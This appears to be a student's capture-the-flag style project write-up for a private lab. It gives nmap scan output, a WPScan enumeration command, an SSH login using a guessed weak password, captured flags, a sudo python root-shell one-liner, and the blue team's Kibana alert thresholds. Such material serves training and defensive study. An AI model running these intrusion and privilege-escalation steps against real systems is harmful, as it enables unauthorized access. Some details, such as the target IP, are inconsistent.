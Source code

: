 # Final-Project
Red Team, Blue Team, and Network Analysis

# Red Team: Summary of Operations
## Table of Contents
### Exposed Services
### Critical Vulnerabilities
### Exploitation
### Exposed Services
<details>
  <summary> NMAP Scan </summary>
  <pre>
NMAP:
 Nmap scan results for each machine reveal the below services and OS details:
$ nmap -sV 192.168.1.*
  #Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-26 15:14 PST
Nmap scan report for 192.168.1.1
Host is up (0.00054s latency).
Not shown: 995 filtered ports
PORT 	STATE SERVICE   	VERSION
135/tcp  open  msrpc     	Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 
Nmap scan report for 192.168.1.100
Host is up (0.00039s latency).
Not shown: 998 closed ports
PORT 	STATE SERVICE VERSION
22/tcp   open  ssh 	OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http	Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.105
Host is up (0.00088s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http	Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.110
Host is up (0.00091s latency).
Not shown: 995 closed ports
PORT	STATE SERVICE 	VERSION
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 	2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.115
Host is up (0.00038s latency).
Not shown: 995 closed ports
PORT	STATE SERVICE 	VERSION
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 	2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.90
Host is up (0.0000070s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.24 seconds
 
This scan identifies the services below as potential points of entry:
Target 1 192.168.1.100
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 	2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
</pre>
</details>

The following vulnerabilities were identified on each target:
Target 1
<br> HTTP Port access
<br> Wordpress site using WPscan
<br> Dirb scan
<br> `Wpscan –url http://192.168.1.110/wordpress –enumerate u`
<br> SSH into an account with open port 22
<br> Ssh michael@192.168.1.110 with password michael
<br>Navigate to /var/www/http/wordpress
<br> `cat/nano/less wp-config.php`


Include vulnerability scan results to prove the identified vulnerabilities.
## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
Target 1

Flag1.txt:
flag1{b9bbcb33e11b80be759c4e844862482d}

### Flag 2 Exploit Used
Getting into michael’s account via ssh; one avenue of searching is to grep 
I ended up lessing some of the html files and found the flag

Flag2.txt:
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}


### Flag 3 Exploit Used
Found in the www directory

Flag3.txt
flag3{afc01ab56b50591e7dccf93122770cd2}

Found in the mySQL command: wordpress database in the wp_posts table
### Flag 4 Exploit Used

Flag4.txt
Flag4{715dea6c055b9fe3337544932f2941ce}
`sudo python -c 'import os; os.system("/bin/sh")'`

This reverse shells from steven user to root privilege
'Sudo -ls' shows what command can be executed by user: which steven can execute python scripts without passwords in sudo.
Using cd: it took me to the root home folder and flag4.txt was in there


# Blue Team
## Blue Team: Summary of Operations
### Table of Contents
#### Network Topology
#### Description of Targets
#### Monitoring the Targets
#### Patterns of Traffic & Behavior

## Network Topology
The following machines were identified on the network:
Name of VM 1: Kali
Operating System:Kali
Purpose: Red team usage; use to attack Target 1 and 2
IP Address: 192.168.1.90
Name of VM 2: Target 1
Operating System: Linux 3.2-4.9
Purpose: Hosts website RavenSecurity
IP Address: 192.168.1.110
Name of VM 3: Target 2
Operating System: Linux 3.2-4.9
Purpose: Second Box to attack
IP Address: 192.168.1.115
Name of VM 4: ELK
Operating System: No scans on NMAP
Purpose: Generates logs
IP Address: 192.168.1.100
Name of VM 5: Capstone
Operating System: Linux 3.2-4.9
Purpose: Practice alerts
IP Address: 192.168.1.105
Description of Targets
The target of this attack was: Target 1 (192.168.1.110).
Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:
Monitoring the Targets
Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:
## Name of Alert 1:
Packetbeat: HTTP Response Code
Alert 1 is implemented as follows:
Metric: HTTP response code
Threshold: Above 400
Vulnerability Mitigated: Determines an alert based on http response code.
Reliability: Medium, depending on how active the site is used. There were a few pings that triggered this alert.
## Name of Alert 2
Packetbeat: HTTP Request Bytes
Alert 2 is implemented as follows:
Metric: Packetbeat: HTTP request bytes threshold
Threshold: 3500
Vulnerability Mitigated: Data accessing thresholds.
Reliability: Low: The majority of alerts, if I am correctly reading my Kibana, is from request bytes.
## Name of Alert 3
Metricbeat CPU Utilization
Alert 3 is implemented as follows:
Metric: Metricbeat: CPU process power
Threshold: Over 0.5%
Vulnerability Mitigated: Mitigates excessive task power which might seem abnormal to regular functions.
Reliability: High: most of the pings were of less than .3% of cpu utilization. 
